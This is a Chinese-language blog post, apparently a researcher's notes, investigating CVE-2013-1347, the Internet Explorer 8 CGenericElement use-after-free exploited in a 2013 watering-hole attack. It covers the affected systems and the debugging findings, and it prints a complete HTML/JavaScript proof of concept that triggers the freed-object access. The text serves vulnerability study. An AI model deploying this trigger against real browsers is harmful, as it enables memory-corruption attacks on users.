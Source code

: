 ```yaml
---
title: CVE-2013-1347 Investigation
toc: true
categories: Vulnerability Investigation
abbrlink: 967c6bc6
date: 2025-03-15 18:53:57
updated: 2025-03-15 18:53:57
---
```


2013 年 5 月 1 日美国劳工部遭受到「水坑」型 APT 攻击，该攻击的主要利用漏洞即为 CVE-2013-1347。美国劳工部网站因被 APT 攻击挂马而导致每个访问该网站的受害者在本地加载 mshtml.dll 和 jscript.dll 两个动态链接库对网页内容进行解析时触发恶意脚本

影响范围：

Microsoft IE 8 running on
Microsoft Windows Server 2003 SP1/SP2
Microsoft Windows Vista SP2
Microsoft Windows XP SP2/SP3

## 漏洞分析

开启 hpa 后调试运行 IE 8 并打开 PoC，选择允许阻止的内容后因 ecx 指向非法地址触发 Access Violation 异常而崩溃，查看 ecx 指向的非法地址所属堆块信息发现该堆块已被 free。栈回溯查看崩溃时栈顶返回地址前的指令，发现为虚函数调用指令。调试这边只能先开摆了从 PoC 入手。

> 查看堆块信息时会发现它曾被 CGenericElement 对象的析构方法释放过，但这一漏洞的成因与该对象没什么关系，哪怕 CVE-2013-1347 被习惯称作 CGenericElement UAF 漏洞

```html
<!doctype html> <!-- required -->
<HTML>
<head>
</head>
<body>
<ttttt:whatever id="myanim"/><!-- required format -->
<script>
    f0=document.createElement('span');
    document.body.appendChild(f0);

    f1=document.createElement('span');
    document.body.appendChild(f1);

    f2=document.createElement('span');
    document.body.appendChild(f2);

    document.body.contentEditable="true";
    f2.appendChild(document.createElement('datalist')); //has to be a data list
    f1.appendChild(document.createElement('table'));    //has to be a table

    try{
            f0.offsetParent=null;                       //required
    }catch(e){  }

    f2.innerHTML="";                                    //required
    f0.appendChild(document.createElement('hr'));       //required
    f1.innerHTML="";                                    //required
    CollectGarbage();
 </script>
</body>
</html>
```
